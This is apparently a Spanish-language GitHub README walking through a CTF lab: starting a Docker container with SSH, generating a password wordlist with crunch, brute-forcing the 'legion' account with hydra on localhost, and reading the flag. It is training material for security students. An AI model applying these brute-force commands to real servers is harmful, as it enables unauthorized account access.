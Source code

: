 # <p align="center">🧪 Reto CTF Docker Hub – Usuario 'legion'</p>


<p align="center">
  <img src="Imagenes/GRUPO URTG.png">
</p>

Este repositorio documenta paso a paso la resolución del reto CTF basado en un contenedor Docker que expone un servicio SSH con el usuario `legion`, cuya contraseña debe ser descubierta a partir de un acertijo.

---

## 🔹 PASO 1: Descargar la Imagen Docker

```bash
docker pull jaiderospina/retoctf:1.0
```

**Descripción:**
Descarga una imagen pública con Ubuntu y servicio SSH habilitado, preconfigurado con un usuario `legion`.

<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/43c48b01-01ad-4a80-abf1-864ddcf927f4" />

---

## 🔹 PASO 2: Levantar el Contenedor

```bash
docker run -d -p 2222:22 --name mi-contenedor-ssh jaiderospina/retoctf:1.0
```

**Explicación de parámetros:**
- `-d`: modo segundo plano (detached).
- `-p 2222:22`: expone el puerto 22 del contenedor en el 2222 del host.
- `--name`: nombre asignado al contenedor para fácil manejo.

**Objetivo:** Tener un contenedor activo con SSH disponible para conexión desde el host.
<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/82d37956-15fa-44d0-8355-ec4345fd5503" />

---

## 🔹 PASO 3: Generar Diccionario con `crunch`

### Opción A: Letras definidas

```bash
crunch 5 5 sdeg -t E%%%% -o lista.txt
```

### Opción B: Patrón libre con mayúsculas/minúsculas

```bash
crunch 5 5 -t E%%%% -o lista.txt -f /usr/share/crunch/charset.lst mixalpha
```

**Explicación:**
- `5 5`: longitud fija de 5 caracteres.
- `-t E%%%%`: patrón donde la primera letra es "E", las demás varían.
- `-o lista.txt`: salida al archivo.
- `-f ... mixalpha`: usa todas las letras mayúsculas y minúsculas.

**Objetivo:** Crear un diccionario de posibles contraseñas según pistas del acertijo del reto.
<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/eb8c4421-cb32-427d-92b6-27ca5f474eee" />

---

## 🔹 PASO 4: Ataque de Fuerza Bruta con `hydra`

```bash
hydra -l legion -P lista.txt ssh://localhost:2222
```

**Explicación:**
- `-l legion`: usuario a atacar.
- `-P lista.txt`: diccionario de contraseñas generado.
- `ssh://localhost:2222`: objetivo SSH en el contenedor.

**Resultado esperado:**
Hydra identifica la contraseña correcta e imprime una línea como:

```
[22][ssh] host: localhost   login: legion   password: Esdeo
```
<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/f9a5e395-0b7f-4a26-bd33-76af4b17bc37" />

---

## 🔹 PASO FINAL: Acceso al contenedor por SSH

```bash
ssh legion@localhost -p 2222
```

**Objetivo:**
Ingresar como el usuario `legion` al contenedor una vez descubierta la contraseña, para buscar la bandera (flag) del reto:

```bash
ls
cat flag.txt
```
<img width="1500" height="400" alt="image" src="https://github.com/user-attachments/assets/3543546d-49cc-450b-a452-926a6800e0fb" />

---

## ✅ Conclusión

Este reto CTF pone en práctica habilidades de:
- Manejo de contenedores Docker.
- Generación de diccionarios personalizados con `crunch`.
- Uso de herramientas de fuerza bruta como `hydra`.
- Análisis lógico de acertijos para deducir patrones de contraseñas.

> 💡 Ideal para estudiantes de ciberseguridad, testers o pentesters en formación.
